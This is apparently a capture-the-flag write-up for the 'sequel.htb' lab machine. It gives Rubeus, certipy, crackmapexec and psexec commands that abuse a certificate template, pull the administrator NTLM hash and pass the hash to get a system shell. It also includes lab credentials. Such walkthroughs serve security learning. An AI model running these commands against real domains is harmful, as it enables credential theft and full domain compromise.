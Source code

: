 Upload #D^rubeus to remote machine from #SharpCollection 

![[Pasted image 20241217204850.png]]
Upload certificate 

`upload cert.pfx`

![[Pasted image 20241217204940.png]]
Execute Rubeus 

`.\Rubeus.exe asktgt/user:administrator /certificate:C:\programdata\cert.pfx`

![[Pasted image 20241217205137.png]]
Got the tgt 

![[Pasted image 20241217205239.png]]
`dir C:\Users\administrator` - don't have access.

Failed to inject cert into our session. 

Get NTLM hash with:

`.\Rubeus.exe asktgt/user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap`

![[Pasted image 20241217205456.png]]
Could also take ticket and use psexec to login. 
We can also login with this NTLM hash. 

`cme smb 10.10.11.202 -u administrator -H A52F7BESGJGDGGSG7248476`

This worked. 

![[Pasted image 20241217205723.png]]

Login with #psexec 

`psexec.py -hashes A52F7BESGJGDGGSG7248476:A52F7BESGJGDGGSG7248476 administrator@10.10.11.202`

Just paste the NTLM hash twice. Got root. 
![[Pasted image 20241217210000.png]]

Alternate method to get in using #certipy 

This command will also show us vulnerable certificates

`certipy find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable`

![[Pasted image 20241217210318.png]]
![[Pasted image 20241217210419.png]]

Requesting a certificate and this should give us a `.pfx` file

`certipy req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication`
